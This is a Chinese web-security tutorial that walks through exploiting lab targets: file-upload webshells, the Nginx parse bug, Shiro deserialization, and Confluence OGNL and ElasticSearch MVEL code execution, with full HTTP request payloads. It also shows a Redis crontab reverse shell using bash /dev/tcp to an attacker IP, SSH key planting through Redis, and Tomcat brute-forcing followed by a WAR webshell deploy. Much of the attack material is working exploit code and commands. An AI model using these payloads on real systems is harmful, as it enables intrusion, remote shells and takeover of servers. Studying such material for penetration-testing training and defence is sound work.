# WEB安全基础篇 - 下

> 作者：[XiDanEr](https://github.com/xidaner)
> 更新日期 2021年11月12日

---

<p align="center"></p>

**目录**

- [WEB安全基础篇 - 下](#web安全基础篇---下)
  - [文件上传漏洞](#文件上传漏洞)
  - [中间件漏洞](#中间件漏洞)
    - [中间件解析漏洞](#中间件解析漏洞)
    - [反序列化漏洞](#反序列化漏洞)
  - [命令执行](#命令执行)
    - [表达式注入](#表达式注入)
  - [未授权 GetShell](#未授权-getshell)
    - [应用未授权访问](#应用未授权访问)
      - [1. 未授权访问数据库](#1-未授权访问数据库)
      - [2.利用crontab反弹shell](#2利用crontab反弹shell)
      - [3.利用公私钥认证获得root权限](#3利用公私钥认证获得root权限)
    - [中间件未授权/弱口令](#中间件未授权弱口令)
  - [常见其他漏洞](#常见其他漏洞)
    - [URL重定向](#url重定向)
    - [目录浏览和信息泄露漏洞](#目录浏览和信息泄露漏洞)


## 文件上传漏洞

代码审计过程中发现目标站点存在文件上传漏洞, 应用系统在文件上传功能处对用户上传文件类型、格式、内容等做合法性校验，导致攻击者可以上传 Webshell

<p align="center"></p>

恶意脚本文件或者非期望格式的文件比如：HTML 文件、SHTML 文件等，同时可利用目录跳转等字符或者控制上传目录，直接上传文件到 Web 目录或任意目录下，从而可能导致在远程服务器上执行任意恶意脚本文件，从而直接获取应用系统权限。

```bash
==============渗透测试靶机环境=============

渗透测试靶场：

目标：上传恶意文件，拿到服务器 WEBSHELL

网站: http://1.117.43.77/vulnerabilities/upload/

工具: BURP、antsword

================正式开式================
```

**上传恶意文件从而获取服务器 WEBSHELL**

1. 我们先上传一个正常图片，看看能不能上传成功，有没有返回图片路径等信息

<p align="center"></p>

2. 访问链接，访问到上传的图片。

<p align="center"></p>

3. 因为是PHP网站，所以上传PHP的一句话马

<p align="center"></p>

<p align="center"></p>

4. 使用 `AntSword` 连接一句话马，访问目标主机

<p align="center"></p>

5. 成功拿下目标主机权限，获取`WEBSHELL`

<p align="center"></p>

<p align="center"></p>

**文件上传常用工具**

- [antSword--蚁剑](https://github.com/AntSwordProject/antSword)
  - 跨平台的开源网站管理工具
- [Godzilla--哥斯拉](https://github.com/BeichenDream/Godzilla)
  - 内置了3种Payload以及6种加密器,6种支持脚本后缀,20个内置插件
- [Behinder--冰蝎](https://github.com/rebeyond/Behinder)
  - “冰蝎”动态二进制加密webshell


## 中间件漏洞

通常WEB渗透过程中，使用 `AWVS` 或其他漏扫工具会扫描到一些中间件漏洞，有些存在 `CVE` 编号则直接使用POC和EXP 脚本打就行了。我们这里介绍一些常见中间件及其利用方式。

### 中间件解析漏洞

解析漏洞是指`WEB 中间件`因对http请求处理不当导致将非可执行的脚本，文件等当做可执行的脚本，文件等执行。

该漏洞一般配合服务器的文件上传功能使用，以获取服务器的权限。

**Nginx 解析漏洞复现**

```bash
==============渗透测试靶机环境=============

渗透测试靶场：

目标：上传恶意文件，拿到服务器 WEBSHELL

网站: http://1.117.43.77:8081

工具: BURP、antsword

================正式开式================
```

该漏洞与`Nginx、php`版本无关，属于用户配置不当造成的解析漏洞。


```
访问
http://1.117.43.77:8081/uploadfiles/nginx.png

查看区别
http://1.117.43.77:8081/uploadfiles/nginx.png/.php
```

1. 正常显示：

<p align="center"></p>

2. 增加`/.php`后缀，被解析成PHP文件：

<p align="center"></p>

3. 访问 `http://your-ip/index.php` 可以测试上传功能，上传代码不存在漏洞，但利用解析漏洞即可getshell：

4. 制作一个PNG 文件，其中包含 一句话马

<p align="center"></p>

<p align="center"></p>

5. 使用 NGINX 解析漏洞连接一句话马

<p align="center"></p>

<p align="center"></p>

### 反序列化漏洞

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

**Apache Shiro 1.2.4反序列化漏洞**

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。


1. 访问目标网站，发现可能是个 `shiro` 框架的登录框

<p align="center"></p>

2. 使用反序列化工具先尝试爆破一下当前密钥，看看是不是shiro框架

<p align="center"></p>

发现不断判断出了该网站存在 `shiro` 框架，并且存在反序列化漏洞

3. 我们继续爆破，尝试看看能不能获取回显方法。帮助我们进一步利用反序列化漏洞

<p align="center"></p>

4. 已经确定工具的使用方法，尝试直接利用漏洞getshell，使用命令执行模块对目标执行命令

<p align="center"></p>

5. 已经成功 GETSHLL， 获取 root 权限


**常见web中间件及其漏洞概述**

|中间件名称|存在漏洞|
|-|-|
|  IIS|PUT漏洞、短文件名猜解、远程代码执行、解析漏洞|
|  Apache|解析漏洞、目录遍历|
|  Nginx　|文件解析、目录遍历、CRLF注入、目录穿越|
| Tomcat|远程代码执行、war后门文件部署|
| jBoss|反序列化漏洞、war后门文件部署|
| WebLogic|反序列化漏洞、SSRF、任意文件上传、war后门文件部署|
| 其它中间件相关漏洞|FastCGI任意命令执行、PHPCGI远程代码执|

---

## 命令执行

当应用需要调用一些外部程去处理内容的情况下，就会用到一些执行系统命令的函数，比如: PHP 中的 `system、exec、shell_exec、passthru、popen、popc_popen` 等，当用户调用这些函数时，讲恶意系统命令注入到正常命令中，造成命令执行漏洞！

**常见命令执行函数**

PHP可动态执行PHP代码的有:system、exec、shell_exec、passthru、popen
jsp有:Runtime、getruntime()、exec();
Asp/aspx有:eval等

**ElasticSearch 命令执行漏洞**

```bash
==============渗透测试靶机环境=============

渗透测试靶场：

目标: 利用命令执行漏洞 GETSHELL

网站: http://1.117.43.77:9200

工具: BURP、vps

================正式开式=================
```

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

1. 环境启动后，我们向 `http://your-ip:9200` 发送一个正常的XML数据包，将会得到预期返回：

<p align="center"></p>

2. 首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```

POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

<p align="center"></p>

3. 然后，执行任意代码

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

<p align="center"></p>

4. 使用工具可以获得其目录结构和内容

<p align="center"></p>

**常见命令执行漏洞**

```
 Apereo CAS 4.1 反序列化命令执行漏洞
 Apache SSI 远程命令执行漏洞
 Atlassian Confluence 路径穿越与命令执行漏洞
 Couchdb 任意命令执行漏洞
 ElasticSearch 命令执行漏洞
 electron 远程命令执行漏洞
 Electron WebPreferences 远程命令执行漏洞
 fastjson 反序列化导致任意命令执行漏洞
 Fastjson 1.2.47 远程命令执行漏洞
 GhostScript 沙箱绕过（命令执行）漏洞
 Gitea 1.4.0 目录穿越导致命令执行漏洞
 GitLab 远程命令执行漏洞
 gitlist 0.6.0 远程命令执行漏洞
 GoAhead 远程命令执行漏洞
 Imagetragick 命令执行漏洞
 Jenkins远程命令执行漏洞
 Jmeter RMI 反序列化命令执行漏洞（CVE-2018-1297）
 Liferay Portal CE 反序列化命令执行漏洞
 Apache Log4j Server 反序列化命令执行漏洞
 Nexus Repository Manager 3 远程命令执行漏洞
 Apache OfBiz 反序列化命令执行漏洞
 OpenSMTPD 远程命令执行漏洞 (CVE-2020-7247)
 PHP imap 远程命令执行漏洞
 PostgreSQL 高权限命令执行漏洞（CVE-2019-9193）
 Python PIL 远程命令执行漏洞（GhostButt）
 Python PIL 远程命令执行漏洞（via Ghostscript）
 Samba 远程命令执行漏洞
 Apache Solr 远程命令执行漏洞
 Apache Solr Velocity 注入远程命令执行漏洞
 Spring Security Oauth2 远程命令执行漏洞
 Spring Data Rest 远程命令执行漏洞
 Spring Messaging 远程命令执行漏洞
 Spring Data Commons 远程命令执行漏洞
 Struts2 S2-057 远程命令执行漏洞
 Struts2 S2-059 远程命令执行漏洞
 Struts2 S2-061 远程命令执行漏洞
 Supervisord 远程命令执行漏洞
 Weblogic WLS Core Components 反序列化命令执行漏洞
 Weblogic 管理控制台未授权远程命令执行漏洞
 Webmin 远程命令执行漏洞
 Wordpress 4.6 任意命令执行漏洞（PwnScriptum）
 XStream 反序列化命令执行漏洞
```

### 表达式注入

当应用框架执行了恶意用户传进来的OGNL表达式，就会造成远程代码执行。对服务器造成“命令执行、服务器文件操作、打印回显、获取系统属性、危险代码执行”等，
只不过需要精心构造不同的OGNL代码而已。那么，漏洞都是如何触发，或者说，如何注入OGNL表达式，造成RCE，下面用一个表来简要概括：

|注入点|注入代码写法|
|-|-|
|request参数名、cookie 名|(ognl)(constant)=value&(constant)((ognl1)(ogn12))|
|request参数值|%{ognl}、${ognl}、'ognl'、(ognI)|
|request的filename|% {ognl}、${ognl}|
|request的URL|/% {ognl}.action、/S {ognl}.action|
|request的content-type|% {ognl}、${ognl}|

**Atlassian Confluence OGNL表达式注入代码执行漏洞**

Atlassian Confluence是企业广泛使用的wiki系统，其部分版本中存在OGNL表达式注入漏洞。攻击者可以通过这个漏洞，无需任何用户的情况下在目标Confluence中执行任意代码。

```bash
==============渗透测试靶机环境=============

渗透测试靶场：

目标: 利用表达式注入漏洞 GETSHELL

网站: http://1.117.43.77:8090

工具: BURP、vps、Atlassian账号

================正式开式=================
```

1. 访问 `http://your-ip:8090` 即可进入安装向导，申请试用版许可证。

<p align="center"></p>

2. 在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

<p align="center"></p>

3. 然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长,下图为安装成功演示。

<p align="center"></p>

注册一个登录用户即可

<p align="center"></p>

**漏洞利用**

> 有多个接口可以触发这个OGNL表达式注入漏洞。

1. `/pages/doenterpagevariables.action` 数据接口

这个接口不需要登录即可利用，发送如下数据包，即可看到`233*233`已被执行

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

<p align="center"></p>


2. 执行任意命令

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: 192.168.91.139:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1060

queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```

<p align="center"></p>

**总结**

而表达式注入通常调用框架漏洞，如`S2的 OGNL表达式注入`，`Elasticsearch  的 MVEL`MVEL是同OGNL和SPEL一样，具有通过表达式执行Java代码的强大功能

## 未授权 GetShell

未授权访问可以理解为需要安全配置或权限认证的地址、授权页面存在缺陷，导致其他用户可以直接访问，从而引发重要权限可被操作、数据库、网站目录等敏感信息泄露。

**目前主要存在未授权访问漏洞的有**：NFS服务，Samba服务，LDAP，Rsync，FTP，GitLab，Jenkins，MongoDB，Redis，ZooKeeper，ElasticSearch，Memcache，CouchDB，Docker，Solr，Hadoop，Dubbo等

### 应用未授权访问

在17年前后，勒索病毒均利用未授权访问等通用漏洞进行植入、勒索，尤其是`Redis、MongoDB`等数据库的未授权访问漏洞尤其严重。

**Redis未授权访问**

Redis因配置不当可以未授权访问。攻击者无需认证访问到内部数据，可导致敏感信息泄露，也可以恶意执行`flushall`来清空所有数据。如果Redis以root身份运行，可以写入计划任务让服务器执行回弹，GETSHELL。

```bash
==============渗透测试靶机环境=============

渗透测试靶场：

目标: 利用未授权访问漏洞 GETSHELL

网站: http://1.117.43.77:6379

工具: vps、redis-cli、ncat

================正式开式=================
```

#### 1. 未授权访问数据库

启动redis服务进程后，就可以使用测试攻击机程序redis-cli和靶机的redis服务交互了。 比如：

```plain

 redis-cli -h <IP> # 未授权访问IP
```

<p align="center"></p>

登录的结果可以看出该redis服务对公网开放，且未启用认证。

```plain
    > info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等:
    > CONFIG GET dir # 获取默认的 redis 目录
    > CONFIG GET dbfilename # 获取默认的 rdb 文件名
```
举例输入info,查看到大量敏感信息。

<p align="center"></p>

#### 2.利用crontab反弹shell

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell

先在自己的kali/服务器上监听一个端口nc -nlvp 5678

<p align="center"></p>

然后通过未授权访问连接上服务器执行命令

```plain
config set dir /var/spool/cron

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/<kali的IP>/<端口> 0>&1\n\n\n"

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/192.168.16.59/5678 0>&1\n\n\n"

或者
set x "\n* * * * * /bin/bash i > /dev/tcp/<kali的IP>/<端口> 0<&1 2>&1\n"

set x "\n* * * * * /bin/bash i >& /dev/tcp/192.168.16.59/5678 0<&1 2>&1\n"

config set dbfilename root
save
```

<p align="center"></p>

待任务执行后会弹到kali的nc上，过一分钟左右就可以收到shell

<p align="center"></p>

再上线到CS做权限维持和后渗透

<p align="center"></p>

#### 3.利用公私钥认证获得root权限

在以下条件下,可以利用此方法

*  Redis 服务使用 ROOT 账号启动

* 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

**实例**

1. 靶机中开启redis服务：`redis-server /etc/redis.conf`

2. 在靶机中执行 `mkdir /root/.ssh` 命令，创建`ssh`公钥存放目录

在攻击机中生成ssh公钥和私钥，密码设置为空：

```plain
ssh-keygen -t rsa
```
<p align="center"></p>

进入`.ssh`目录：`cd .ssh/`，将生成的公钥保存到`test.txt`：

```plain
# 将公钥的内容写到一个文本中命令如下
(echo -e "\n\n"; cat id_rsa.pub; echo e "\n\n") > test.txt
```
<p align="center"></p>

链接靶机上的`redis`服务，将保存`ssh`的公钥`1.txt`写入`redis`（使用`redis-cli -h ip`命令连接靶机，将文件写入）

```plain
  cat test.txt | redis-cli -h <hostname> -x set test
```
<p align="center"></p>


远程登录到靶机 redis 数据库，并使用`CONFIG GET dir`命令得到redis备份的路径：

<p align="center"></p>

更改redis备份路径为ssh公钥存放目录（一般默认为`/root/.ssh`）：

<p align="center"></p>

此时通过ssh 连接到靶机

```plain
ssh -i id_rsa root@<ip>
```
<p align="center"></p>


### 中间件未授权/弱口令

部分中间件 支持在后台部署war文件，可以直接将webshell部署到web目录下。当然，有个前提条件，那就是需要能登录后台，且对应用户有相应权限。

**Tomcat 弱口令部署Webshell**

```bash
==============渗透测试靶机环境=============

渗透测试靶场：

目标: 利用未授权访问漏洞 GETSHELL

网站: http://1.117.43.77:8080

工具: msf、冰蝎

================正式开式=================
```

漏洞为tomcat弱口令和支持在后台部署war文件

1. 访问tomcat管理页面

打开tomcat管理页面 `http://your-ip:8080/manager/html`

<p align="center"></p>

2. 使用msf，选择对应的tomcat模块进行爆破

```bash
search tomcat     # 查找爆破模块
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts <目标IP>
set pass_file /root/pass.txt
set user_file /root/user.txt
exploit
```

<p align="center"></p>

爆破发现账号密码为 `Successful: tomcat:tomcat`,登录账号。

3. 生成war包，并部署到网站上

```bash
jar.exe -cvf shell.war shell.jsp # shell.jsp放后门
```

<p align="center"></p>

访问路径

```
http://IP/shell/shell.jsp
```

<p align="center"></p>


## 常见其他漏洞

### URL重定向

由于目标网站未对程序跳转的 URL 地址及参数做合法性判断，导致应用程序直接跳转到参数中指定的的 URL 地址。攻击者可通过将跳转地址修改为指向恶意站点，即可发起网络钓鱼、诈骗甚至窃取用户凭证等。

**Django < 2.0.8 任意URL跳转漏洞**

`Django` 默认配置下，如果匹配上的URL路由中最后一位是/，而用户访问的时候没加/，`Django` 默认会跳转到带/的请求中。

```bash
==============渗透测试靶机环境=============

渗透测试靶场：

目标: 利用URL跳转漏洞跳转到百度

网站: http://1.117.43.77:8000

工具: Chrome

================正式开式=================
```

1. 访问网站首页

<p align="center"></p>

该漏洞利用条件是目标`URLCONF`中存在能匹配上 `//example.com` 的规则。

2. 构造恶意 URL

访问 `http://your-ip:8000//www.baidu.com`，即可返回是301跳转到`//www.baidu.com/`

<p align="center"></p>

**常见参数名**

|常见参数名|
|-|
|redirect|
|redirect_to|
|redirect_url|
|url|
|jump|
|jump_to|
|target|
|to|
|link|
|linkto|
|domain|

### 目录浏览和信息泄露漏洞

**目录浏览**

目录浏览漏洞主要是由于配置不当，当访问到某一目录中没有索引文件时（或者手工开启了目录浏览功能）即把当前目录中的所有文件及相关下层目录一一在页面中显示出来。通过该漏洞攻击者可获得服务器上的文件目录结构，从而下载敏感文件（备份文件存放地址、数据文件、数据库文件、源代码文件等）。


> 当浏览网站文件夹时出现下面内容则会造成目录浏览

<p align="center"></p>

攻击者利用目录、文件路径信息可以对Web应用进行攻击，如数据库脚本SQL文件路径泄露、程序备份、压缩文件路径泄露等，可以利用这些信息进一步对Web应用进行攻击，甚至可以利用这些信息获取数据库的数据或获取服务器控制权限。
